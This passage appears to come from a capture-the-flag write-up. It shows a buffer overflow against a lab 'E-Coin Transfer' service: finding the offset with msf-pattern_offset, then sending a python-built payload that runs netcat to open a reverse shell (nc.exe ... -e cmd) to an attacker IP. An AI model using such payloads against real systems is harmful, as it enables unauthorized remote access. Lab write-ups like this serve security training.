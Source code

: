 ```
 --------------------------------------------------------------
 Please enter the amount of e-coins you would like to transfer:
 [$] Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab
 [$] Transfering $Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab using our e-coin transfer application. 
 [$] Executing e-coin transfer tool: 0Ab1Ab2Ab3Ab4Ab5Ab

 [$] Transaction in progress, you can safely disconnect...
 ```

 - Then find the offset using `msf-pattern_offset`
   - It's 32
```
└─$ msf-pattern_offset -q 0Ab1
[*] Exact match at offset 32
```

- Create a payload
  - And send it
```
└─$ python3 -c 'print("A"*32 + "\\programdata\\nc.exe 10.10.16.9 7777 -e cmd")'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\programdata\nc.exe 10.10.16.9 7777 -e cmd
```
```
└─$ nc localhost 9100
 --------------------------------------------------------------
 Internet E-Coin Transfer System
 International Bank of Sun church
                                        v0.1 by Gio & Cneeliz
 --------------------------------------------------------------
 Please enter your super secret 4 digit PIN code to login:
 [$] 0021
 [$] PIN is correct, access granted!
 --------------------------------------------------------------
 Please enter the amount of e-coins you would like to transfer:
 [$] AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\programdata\nc.exe 10.10.16.9 7777 -e cmd
 [$] Transfering $AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\programdata\nc.exe 10.10.16.9 7777 -e cmd using our e-coin transfer application. 
 [$] Executing e-coin transfer tool: \programdata\nc.exe 10.10.16.9 7777 -e cmd

 [$] Transaction in progress, you can safely disconnect...

```

- We got our shell

![](./images/20.png)